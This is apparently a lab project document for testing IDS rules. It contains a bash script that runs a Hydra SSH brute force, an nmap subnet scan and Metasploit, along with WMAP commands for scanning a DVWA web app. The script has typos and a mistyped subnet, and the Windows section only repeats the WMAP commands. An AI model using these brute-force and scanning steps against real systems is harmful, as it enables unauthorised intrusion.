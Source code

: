 Attacker Machines
====
We chose to have two machines acting as attackers on our network, one external and a internal compromised Windows host.

Kali Outside Attacker Machine
----
We chose to use Kali Linux as our external attacker machine, Kali was chosen due to its existing robust catalouge of hacking tools.
We chose to use the following to simulate an attack: 

- NMAP (Scanning Ports)
- HYDRA (Brute Force Password)
- WMAP / Metasploit (Scanning DVWA)

I wrote a custom script to automate most of this process.
    
    .. code-block:: bash

        #/bin/bash
        root -i
        echo "======================================"
        cowsay Moooo!
        echo "Proj: IDS"
        echo "Purpose: Test IDS Rules and Logging with a variety of attacks"
        echo "#################################"
        hydra -L name -P a 10.180.110.250 ssh -t 4
        echo "DONE: Hydra on Admin ASDM Download to find privlaged users"
        echo "#############################"
        ssh user1@10.180.110.250 'exit'
        echo "DONE: Sample remote ssh via attempted brute force"
        echo "###########################"
        #cowsay Hackermode
        sudo nmap -v  110.180.110.0/24
        msfconsole 'load'
        echo "DONE: WEB APP EXPLOITS"
        #cowsay MOO!
        echo "==================================="
        eof

This script launches a hydra attack on the specified IP addresses, then runs a nmap scan and then opens the metasploit console

Then once we are in the MSF console we will run the following to scan our vuln filled web application for exploits.

    .. code-block:: bash

        msf6 > load wmap
        msf6 > wmap_sites -l
        msf6 > wmmap_targets -t http://10.180.110.250/dvwa/index.php
        msf6 > wmap_run -t
        msf6 > wmap_run -e
        msf6 > wmap_vulns -l
        
        
Internal Windows Machine
----
As a demo we simulated a internal machine accessing blocked resources, botnet IP addresses and attempting to execute a RAT file which would be blocked by Windows Defender
    .. code-block:: powershell

        msf6 > load wmap
        msf6 > wmap_sites -l
        msf6 > wmmap_targets -t http://10.180.110.250/dvwa/index.php
        msf6 > wmap_run -t
        msf6 > wmap_run -e
        msf6 > wmap_vulns -l
        
        

